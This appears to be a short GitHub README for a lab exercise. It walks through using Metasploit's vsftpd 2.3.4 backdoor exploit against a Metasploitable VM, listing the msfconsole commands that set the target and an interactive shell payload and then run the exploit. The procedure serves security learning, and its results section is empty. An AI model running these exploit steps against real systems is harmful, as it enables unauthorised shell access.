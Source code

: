 # Exploring the Kali Linux 'metasploit' tool | FTP Vulnerability

## Tools used:
> Metasploitable Linux VM 
> Metasploit tool

###

[EN-US]
1. Switch to the root user and enter the 'msfconsole' command in the terminal;
2. Use <code>>search "vsftdpd"</code> to search for "vsftpd" exploit;
3. Use <code>>info exploit/unix/ftp/vsftpd_234_backdoor</code> for more info about this exploit;
4. Use <code>>use exploit/unix/ftp/vsftpd_234_backdoor</code> to use this exploit;
5. Insert <code>>show options</code> command to show the exploit configuration;
6. Set the metasploitable machine IP in: <code>>set rhosts (ipaddress)</code>;
7. Insert <code>>show options</code> command to show the new exploit configs;
8. Use <code>>set payload/cmd/unix/interact</code> to set the payload for the exploit;
9. Use <code>>exploit</code> to execute the exploit.

### Results example:


